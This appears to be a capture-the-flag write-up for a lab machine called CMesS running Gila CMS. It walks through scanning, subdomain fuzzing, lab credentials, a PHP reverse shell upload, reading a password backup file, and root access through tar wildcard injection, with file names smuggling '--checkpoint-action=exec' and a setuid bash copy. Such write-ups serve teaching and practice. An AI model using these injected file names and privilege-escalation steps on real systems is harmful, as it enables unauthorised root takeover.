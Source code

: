 # CMesS

> César Martínez | RedAiden

## Nmap scan

`nmap -sC -sV -O 10.10.98.228`

__nmap output:__
```
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:3C:57:37:9B:B9 (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster
`gobuster dir -u http://10.10.98.228 -w /usr/share/wordlists/dirb/big.txt`

__gobuster output:__
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 200)
/001 (Status: 200)
/0001 (Status: 200)
/01 (Status: 200)
/1 (Status: 200)
/1a2b3c (Status: 200)
/1_files (Status: 200)
/1sanjose (Status: 200)
/1qw23e (Status: 200)
/1qaz2wsx (Status: 200)
/1p2o3i (Status: 200)
/1x1 (Status: 200)
/1c (Status: 200)
/1q2w3e (Status: 200)
/About (Status: 200)
/Index (Status: 200)
/Search (Status: 200)
/about (Status: 200)
/admin (Status: 200)
/api (Status: 200)
/assets (Status: 301)
/author (Status: 200)
/blog (Status: 200)
/category (Status: 200)
/feed (Status: 200)
/fm (Status: 200)
/index (Status: 200)
/lib (Status: 301)
/log (Status: 301)
/login (Status: 200)
/robots.txt (Status: 200)
/search (Status: 200)
/server-status (Status: 403)
/sites (Status: 301)
/src (Status: 301)
/tags (Status: 200)
/tag (Status: 200)
/themes (Status: 301)
/tmp (Status: 301)
```

## wfuzz

`wfuzz -c -w /usr/share/wordlists/wfuzz/subdomains/subdomains-top1mil-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hl 107`

__wfuzz output:__
```
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 3024

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                   
===================================================================

000000001:   400        12 L     53 W     422 Ch      "~"                                                                                       
000000002:   400        12 L     53 W     422 Ch      "@"                                                                                       
000000252:   400        12 L     53 W     422 Ch      "asdfjkl;"                                                                                
000000566:   400        12 L     53 W     422 Ch      "cgi-bin/"                                                                                
000000827:   200        30 L     104 W    934 Ch      "dev"                                                                                     
000001640:   400        12 L     53 W     422 Ch      "lost+found"                                                                              
000002399:   400        12 L     53 W     422 Ch      "secció"                                                                                  

Total time: 11.88747
Processed Requests: 3024
Filtered Requests: 3017
Requests/sec.: 254.3853
```

## New found subdomain

Add the new subdomain to `/etc/hosts` with the same IP

Andre
email: andre@cmess.thm
password: KPFTN_f2yxe%

## Reverse shell

Upload a reverse shell php script and activate it in `cmess.thm/assets/yourscript.php`

## Linpeas

```
[+] Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rw-r--r-- 1 root root 161 Dec 29 18:24 /tmp/andre_backup.tar.gz                                                                                      
-rwxrwxrwx 1 www-data www-data 309748 Dec 29 18:17 /tmp/linpeas.sh
-rw-r--r-- 1 root root 16930 Feb  6  2020 /var/backups/apt.extended_states.0
```

## LinEnum
```
[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *

[-] Location and Permissions (if accessible) of .bak file(s):
-rw-r--r-- 1 root root 3020 Feb  6  2020 /etc/apt/sources.bak
-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak
```

## Enumeration

1. Cat out `.password.bak` file: `cat /opt/.password.bak`
2. Save Andre's password
```
andres backup password
UQfsdCB7aAP6
```
3. Because of nmap we know it has ssh open, so we login as andre to ssh `ssh andre@[MACHINE IP]`
4. Paste in the found password
5. You are now Andre

## PrivEsc

1. Navigate to `backup`: `cd backup`
2. Create the malicious script: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh`
3. Make it executible `chmod +x runme.sh`
4. Make the tar commands:
```bash
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec=sh\ runme.sh
```
5. Wait 30 seconds
6. Run bash: `/tmp/bash -p`. You are now root.
7. Print the flag `cat /root/root.txt`
